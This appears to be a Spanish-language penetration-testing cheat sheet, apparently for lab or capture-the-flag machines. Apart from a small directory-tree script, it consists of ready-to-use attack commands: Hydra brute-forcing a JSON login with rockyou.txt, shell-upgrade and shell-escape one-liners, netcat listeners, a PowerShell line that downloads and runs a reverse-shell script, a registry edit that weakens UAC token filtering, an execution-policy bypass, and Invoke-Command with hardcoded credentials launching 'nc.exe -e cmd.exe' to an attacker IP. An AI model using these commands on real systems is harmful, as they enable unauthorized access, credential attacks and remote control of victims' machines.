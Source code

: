 # General

## Utilidades

### Linux

#### tree.sh

```bash
#!/bin/bash
pwd=$(pwd)
echo Tree of: $pwd
find $pwd -print | sed -e "s;$pwd;\.;g;s;[^/]*\/;|__;g;s;__|; |;g"
#very simple script. REALLY!
echo '|__end tree'
```

## Herramientas

### Hydra

```bash
hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"
```

##### JSON Payload

```bash
hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"
```

## TTY

### Linux

```text
ctrl + z
echo $TERM && tput lines && tput cols

# bash
stty raw -echo
fg

# zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

socat:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Intérprete:

```text
/usr/bin/script -qc /bin/bash /dev/null
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

# vi
:!bash
:set shell=/bin/bash:shell

# nmap
!sh

# mysql
! bash
```

### Windows

[ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

Server:

```bash
# 1
rlwrap nc -lvnp 3001

# 2
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente:

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite

# Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

# Con o sin ComputerName en el caso de que sea local
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```